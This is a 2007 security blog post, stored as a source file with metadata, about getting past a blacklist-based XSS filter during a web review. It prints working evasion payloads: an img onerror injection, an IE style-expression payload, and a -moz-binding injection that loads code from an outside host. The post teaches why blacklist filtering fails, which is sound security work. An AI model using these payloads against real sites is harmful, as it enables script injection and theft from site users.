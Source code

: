 author: Marcin
disqus_id: 3f2d1246-c6fb-4992-9035-c24b7d629b0b
disqus_url: http://www.tssci-security.com/archives/2007/11/15/blacklisting-xss-filter-evasion-and-other-resources/
mod_date: 2007-11-16 08:19:06
parent: 0
post_id: 330
post_type: post
pub_date: 2007-11-15 22:52:29
public: 'yes'
slug: blacklisting-xss-filter-evasion-and-other-resources
tags:
- Security
template: post.html
title: Blacklisting, XSS filter evasion and other resources

Blacklisting, XSS filter evasion and other resources
####################################################

So the other day I was doing a web site review and looking for XSS
issues. I came across one ASP form that used various URL parameters to
make up parts of the form. Well, I poked around and and tried injecting
the usual, ``<script>alert('xss')</script>``. The page went straight to
a 404 Not Found, so it must have been doing some kind of filtering. I
tried using various cases of ``<script>`` and also UTF-8 encoding the
script.

Nothing was working here, so I put in ``<scrpt>`` and the page worked,
and I saw the tag was being inserted into the page. The page was doing
filtering on the word script, so I knew I had to work around it somehow.
What I ended up doing, was injecting an image tag that pointed to
nothing, and an onerror event. Like so:

``<img src="" onerror=alert(/xss/)>``

And viola! XSS within five minutes. This was a pretty simple case, and
the blacklist was not comprehensive at all, but it just goes to show
there will always be ways around a filter. Also, be sure to use more
than just a single browser when testing web applications for security
flaws. Not every attack will work on Firefox and IE. Take the following
that I used against a search page for IE only:

``</XSS/*-*/STYLE=xss:e/**/xpression(alert(1337))>``

On another page, "onerror" was being filtered, so I had to work around
that. I needed something a little better, so I skipped the image and
script tags, and went straight to the input tags. I ended up using:

``" style="-moz-binding:url('http://h4k.in/')>``

This brings me to a couple new resources I came across, thanks to .mario
in `#slackers <irc://irc.irchighway.net>`_ IRC channel. During the
development and ongoing testing of the `PHP-IDS
project <http://php-ids.org/>`_, mario wrote this awesome `PHP Charset
Encoder <http://h4k.in/encoding/index.php>`_. This `interesting
thread <http://sla.ckers.org/forum/read.php?3,16741,16741#msg-16741>`_
came up in our discussion as well, which is pretty cool and could be
used in evading filters. If
`RTL <http://www.i18nguy.com/markup/right-to-left.html>`_ looks familiar
to you, like it did to me... Perhaps you've seen RSnake's weird "`Dolce
& Gabanna <http://ha.ckers.org/weird/dandb.html>`_\ " page? Right click
> View source and take a look at some of the tags, one of them is RTL.
Now to decipher the rest of that HTML code. hahaha. Oh, one last thing
to wrap this post up... Don't forget the `XSS Cheat
Sheet <http://ha.ckers.org/xss.html>`_, also available in
`XML <http://ha.ckers.org/xssAttacks.xml>`_ for use in your own scripts.
It's been really useful these past couple days.
